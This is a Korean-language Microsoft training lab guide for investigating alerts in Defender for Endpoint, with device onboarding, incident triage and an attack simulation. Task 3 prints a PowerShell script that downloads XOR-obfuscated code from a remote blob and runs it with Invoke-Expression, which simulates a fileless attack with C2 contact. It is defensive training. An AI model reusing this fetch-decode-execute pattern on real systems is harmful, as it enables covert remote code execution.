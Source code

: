 ```yaml
---
lab:
  title: 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 공격 완화
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 학습 경로 2 - 랩 1 - 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

## 랩 시나리오

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

여러분은 엔드포인트용 Microsoft Defender를 구현하고 있는 회사에서 일하는 보안 운영 분석가입니다. 귀하의 관리자가 몇몇 디바이스를 온보딩하여 보안 운영(SecOps) 팀 응답 절차에 필요한 변경 내용에 대한 인사이트를 제공하려고 합니다.

엔드포인트용 Defender 공격 완화 기능을 탐색하려면 성공적인 디바이스 온보딩을 확인하고 해당 프로세스 중에 생성된 경고 및 인시던트를 조사합니다.

>**참고:** **[대화형 랩 시뮬레이션](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** 을 사용하여 이 랩을 원하는 속도로 클릭할 수 있습니다. 대화형 시뮬레이션과 호스트된 랩 간에 약간의 차이가 있을 수 있지만 보여주는 핵심 개념과 아이디어는 동일합니다.

### 작업 1: 디바이스 온보딩 확인

이 작업에서는 디바이스가 성공적으로 온보딩되었는지 확인하고 테스트 경고를 만듭니다.

1. 현재 위치가 Microsoft Edge 브라우저의 Microsoft Defender XDR 포털이 아닌 경우 https://security.microsoft.com)으로 이동하고 테넌트에 대한 관리자로 로그인합니다.

1. 왼쪽 메뉴의 **자산** 영역에서 **디바이스**를 선택합니다. 계속하기 전에 WIN1이 디바이스 페이지에 나타날 때까지 기다려 주세요. 그렇지 않으면, 나중에 생성될 경고를 보기 위해 이 작업을 반복해야 할 수 있습니다.

    >**참고:** 온보딩 프로세스를 완료하고 한 시간 후에 디바이스 목록에 디바이스가 표시되지 않으면 온보딩 또는 연결 문제가 표시될 수 있습니다.

1. 왼쪽 메뉴 모음에서 **설정**을 선택한 다음 설정 페이지에서 **엔드포인트**를 선택합니다.

1. 디바이스 관리 섹션에서 **온보딩**을 선택하고 *"Windows 10 및 11"* 이 운영 체제로 선택되어 있는지 확인합니다. 이제 *"온보딩된 첫 번째 디바이스"* 메시지에 *완료됨*이 표시됩니다.

1. *"2" 섹션에서 아래로 스크롤합니다. 검색 테스트 실행"*, **복사** 단추를 선택하여 검색 테스트 스크립트를 복사 합니다.  

1. WIN1 가상 머신의 Windows 검색 창에서 **CMD**를 입력하고 명령 프롬프트 앱의 오른쪽 창에서 **관리자 권한으로 실행**을 선택합니다.

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다. 

1. **관리자: 명령 프롬프트** 창을 마우스 오른쪽 단추로 클릭하여 스크립트를 붙여넣고 **Enter** 키를 눌러 실행합니다.

    >**참고:** 스크립트를 성공적으로 실행한 후 몇 분 후에 Microsoft Defender XDR 포털에서 경고가 생성되면 창이 자동으로 닫힙니다.

### 작업 2: 경고 및 인시던트 조사

이 작업에서는 이전 작업의 온보딩 검색 테스트 스크립트에서 생성된 경고 및 인시던트를 조사합니다.

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **인시던트 및 경고**를 선택한 다음, **경고**를 선택합니다.

1. **경고** 창에서 *의심스러운 PowerShell 명령줄*이라는 경고를 선택하여 세부 정보를 로드합니다.

1. *경고 스토리* 타임라인을 검토한 다음 *세부 정보* 및 *권장 사항* 탭을 검토합니다.

    >**참고:** 경고 *세부 정보* 탭에서 *인시던트 세부 정보* 섹션까지 아래로 스크롤하고 *한 엔드포인트에서 실행 인시던트* 링크를 선택하여 인시던트를 열 수 있습니다.

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **인시던트 및 경고**를 선택한 다음, **인시던트**를 선택합니다.

1. *한 엔드포인트에서 실행 인시던트*라는 새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

1. **인시던트 관리** 링크(연필 아이콘 포함)를 선택하면 새 창 블레이드가 나타납니다.

1. **인시던트 태그** 아래에서 "시뮬레이션"을 입력하고 **시뮬레이션(새로 만들기)** 를 선택하여 새 태그를 만듭니다.

1. **내게 할당** 토글을 선택하여 사용자 계정(Me)을 인시던트 소유자로 추가합니다.

1. **분류** 아래에서 드롭다운 메뉴를 확장합니다.

1. **정보, 예상 작업**에서 **보안 테스트**를 선택합니다.

1. 원하는 경우 메모를 추가하고 **저장**을 선택하여 인시던트 업데이트 및 완료를 선택합니다.

1. *공격 스토리, 경고, 자산, 조사, 증거 및 대응*과 *요약* 탭의 내용을 검토합니다. 디바이스 및 사용자가 *자산* 탭 아래에 있습니다. 실제 인시던트에서 *공격 스토리* 탭에는 *인시던트 그래프*가 표시됩니다. **힌트:** 일부 탭은 디스플레이 크기 때문에 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

### 작업 3 공격 시뮬레이션

>**경고:** 이 시뮬레이션된 공격은 연습을 통한 훌륭한 학습 소스입니다. Azure 테넌트에서 제공하는 과정을 사용할 때 이 랩에 제공된 지침의 지침에서만 공격을 수행합니다.  이 테넌트에서 이 교육 과정을 완료한 *후에* 다른 시뮬레이션된 공격을 수행할 수 있습니다.

이 작업에서는 WIN1 가상 머신에 대한 공격을 시뮬레이션하고 엔드포인트용 Microsoft Defender 공격이 감지되고 완화되는지 확인합니다.

1. WIN1 가상 머신에서 **시작** 단추를 *마우스 오른쪽 단추로 클릭*하고 **Windows PowerShell(관리자)** 을 선택합니다.

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다.

1. 다음 시뮬레이션 스크립트를 복사하여 PowerShell 창에 붙여넣고 **Enter** 키를 눌러 실행합니다.

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**참고:** 스크립트를 실행하는 동안 오류(빨간색)가 발생하면 메모장 앱을 열고 스크립트를 빈 파일에 복사할 수 있습니다. 메모장에서 *자동 줄 바꿈*이 켜져 있는지 확인합니다. 그런 다음 PowerShell에서 스크립트의 각 줄을 개별적으로 복사하고 실행합니다. 또한 랩 시작 시 다운로드한 파일에 PowerShell 스크립트(attacksim.ps1)가 제공되었습니다. 스크립트를 사용하려면 **Windows PowerShell(관리자)** 에서 *\Users\Admin\Desktop* 폴더로 이동하여 *.\attacksim.ps1*을 입력하고 **Enter** 키를 눌러 실행합니다.

1. 스크립트는 여러 줄의 출력과 *도메인에서 도메인 컨트롤러를 확인하지 못함*이라는 메시지를 생성합니다. 몇 초 후에 *메모장* 앱이 열립니다. 시뮬레이션된 공격 코드가 메모장에 삽입됩니다. 자동으로 생성된 메모장 인스턴스를 열어 두어 전체 시나리오를 경험해 보세요. 시뮬레이션된 공격 코드는 외부 IP 주소(C2 서버 시뮬레이션)와 통신을 시도합니다.

### 작업 4: 시뮬레이션된 공격을 단일 인시던트로 조사

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **인시던트 및 경고**를 선택한 다음, **인시던트**를 선택합니다.

1. *하나의 엔드포인트에서 방어 회피 및 검색과 관련된 다단계 인시던트*라는 새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

1. *공격 스토리* 탭에서 **경고** 및 **인시던트 세부 정보** 창을 축소하여 전체 **인시던트 그래프**를 봅니다.

1. **인시던트 그래프 노드**를 마우스로 가리키고 선택하여 *엔터티*를 검토합니다.

1. **경고** 창(왼쪽)을 다시 확장하고 **재생 공격 스토리** *실행* 아이콘을 선택합니다. 경고별 공격 타임라인 경고를 표시하고 *인시던트 그래프*를 동적으로 채웁니다.

1. *공격 스토리, 경고, 자산, 조사, 증거 및 대응*과 *요약* 탭의 내용을 검토합니다. 디바이스 및 사용자가 *자산* 탭 아래에 있습니다. **힌트:** 일부 탭은 디스플레이 크기 때문에 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

1. **증거 및 대응** 탭에서 **IP 주소**를 선택한 다음, 표시된 *IP 주소*를 선택합니다. 팝업 창에서 IP 주소 세부 정보를 검토하고 아래로 스크롤하여 **IP 주소 페이지 열기** 단추를 선택합니다.

1. 조직 탭에서 *IP 주소* 페이지 *개요, 인시던트 및 경고 및 관찰됨*의 내용을 검토합니다. 일부 탭에는 IP 주소에 대한 정보가 포함되어 있지 않을 수 있습니다.

## 이 랩을 완료했습니다.
